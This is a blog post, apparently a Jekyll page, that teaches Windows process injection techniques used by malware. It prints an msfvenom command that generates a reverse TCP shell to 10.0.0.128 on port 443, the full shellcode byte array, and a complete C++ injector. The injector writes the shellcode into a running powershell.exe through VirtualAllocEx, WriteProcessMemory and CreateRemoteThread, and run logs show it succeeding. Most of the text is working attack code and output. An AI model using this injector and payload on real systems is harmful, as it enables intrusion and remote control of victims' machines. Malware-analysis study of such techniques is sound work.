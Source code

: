 ```yaml
---
layout: post
title:  "Process Injection Techniques"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


In this entry, we will dive into Windows process injection techniques demonstrated by malware. Malware authors deploy process injection to run malicious code under another process.

### 1. Payload & Compiling
Since most malware are 32-bit. All code below will be compiled in `x86 (32-bit)`, with the command `g++.exe <input.cpp> -o <output.exe> --std=c++20 -static`.

The issue with writing 32-bit malware, is that it faces difficulties working with the memory of 64-bit processes.

A simple reverse TCP shell will be used. The shellcode was generated with the following command - `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. I will exclude the payload code in below examples due to its obstruction.

{% highlight cpp %}

unsigned char payload[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x80\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

{% endhighlight %}

<br>
### 2. CreateRemoteThread Injection
CreateRemoteThread is the most basic form of process injection. In essence, it performs the following calls,
+ `OpenProcess()` to get a handle to the victim process.
+ `VirtualAllocEx()` to allocate a new memory page in the victim process.
+ `WriteProcessMemory()` to inject the shellcode into the new memory page.
+ `CreateRemoteThread()` to start the shellcode, in a new thread, in the new memory page.


<br>
#### 2.1. Where to Inject?
The shellcode cannot be injected into any process of choice. Take this example.

{% highlight cpp %}

#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE process_handle;
    PVOID remote_buffer;
    HANDLE remote_thread;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
          
        if (strcmp(processEntry.szExeFile, "powershell.exe") == 0) {
            printf("Found powershell.exe\n");

            process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (int) processEntry.th32ProcessID);
            std::cout << "HANDLE: " << process_handle << std::endl;

            remote_buffer = VirtualAllocEx(process_handle, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            std::cout << "Remote Buffer: " << remote_buffer << std::endl;

            bool written = WriteProcessMemory(process_handle, remote_buffer, payload, sizeof(payload), NULL);
            std::cout << "WriteProcessMemory: " << written << std::endl;

            remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE) remote_buffer, NULL, 0, NULL);
            std::cout << "Remote Thread: " << remote_thread << std::endl;

            CloseHandle(process_handle);
            break;
        }
    };

    CloseHandle(snapshot);
    return 0;
}

{% endhighlight %}

<br>
Let's run the code and dissect the output. We notice that `CreateRemoteThread` fails and returns a NULL. If we inspect `GetLastError`, we get `0x5 (ERROR_ACCESS_DENIED)`. But why?

{% highlight powershell %}

C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
Calc HANDLE: 0x104
Remote Buffer: 0xfe0000
WriteProcessMemory: 1
Remote Thread: 0

{% endhighlight %}

<br>
#### 2.2. 32-bit or 64-bit?
The above example fails, because `CreateRemoteThread` cannot be called from a 32-bit process, to start a thread in a 64-bit process. As stated earlier, this is one of the limitations of 32-bit malware.

Now, let's launch a 32-bit powershell.exe process, and run our malware. 
![powershell32](/assets/post_assets/process-injection-techniques/powershell32.png)

{% highlight powershell%}
C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
HANDLE: 0x118
Remote Buffer: 0x6ac0000
WriteProcessMemory: 1
Remote Thread: 0x12c
{% endhighlight %}

<br>
Success!

![shell1](/assets/post_assets/process-injection-techniques/shell1.png)